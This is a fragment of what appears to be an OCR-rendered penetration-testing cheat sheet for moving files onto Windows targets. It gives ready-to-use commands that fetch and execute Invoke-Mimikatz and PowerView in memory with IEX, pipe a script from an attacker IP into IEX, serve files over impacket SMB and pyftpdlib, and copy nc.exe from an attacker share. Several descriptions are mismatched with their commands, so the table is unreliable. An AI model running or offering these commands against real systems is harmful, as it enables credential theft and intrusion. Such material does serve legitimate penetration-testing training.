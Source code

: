 | `Get-FileHash C:\Users\Public\id_rsa -Algorithm md5`                                                                                                                                                                                                                                                                                              | Checking the md value of a file in windows -PWSH                                                                                                                                               |
| `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')` **OR** `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') \| IEX` | PowerShell DownloadString - Fileless Method -PWSH                                                                                                                                              |
| `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`                                                                                                                                                                                                                  | From PowerShell 3.0 onwards, the Invoke-WebRequest cmdlet is also available, but it is noticeably slower at downloading files. -PWSH                                                           |
| `Invoke-WebRequest https://<ip>/PowerView.ps1 \| IEX`                                                                                                                                                                                                                                                                                             | There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. This can be bypassed using the parameter -UseBasicParsing. -PWSH |
| `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`                                                                                                                                                                                                           | Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command -PWSH                    |
| **SMB File Sharing**                                                                                                                                                                                                                                                                                                                              |                                                                                                                                                                                                |
| `sudo impacket-smbserver share -smb2support /tmp/smbshare` **OR** `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`                                                                                                                                                                                            | We can use SMB to download files from our Pwnbox easily. We need to create an SMB server in our Pwnbox with smbserver.py from Impacket                                                         |
| `copy \\192.168.220.133\share\nc.exe` **OR** `net use n: \\192.168.220.133\share /user:test test`                                                                                                                                                                                                                                                 | Copy a File from the SMB Server -CMD                                                                                                                                                           |
| **FTP File Sharing**                                                                                                                                                                                                                                                                                                                              |                                                                                                                                                                                                |
| `sudo pip3 install pyftpdlib`                                                                                                                                                                                                                                                                                                                     | Installing the FTP Server Python3 Module - pyftpdlib                                                                                                                                           |
| `sudo python3 -m pyftpdlib --port 21`                                                                                                                                                                                                                                                                                                             | Setting up a Python3 FTP Server                                                                                                                                                                |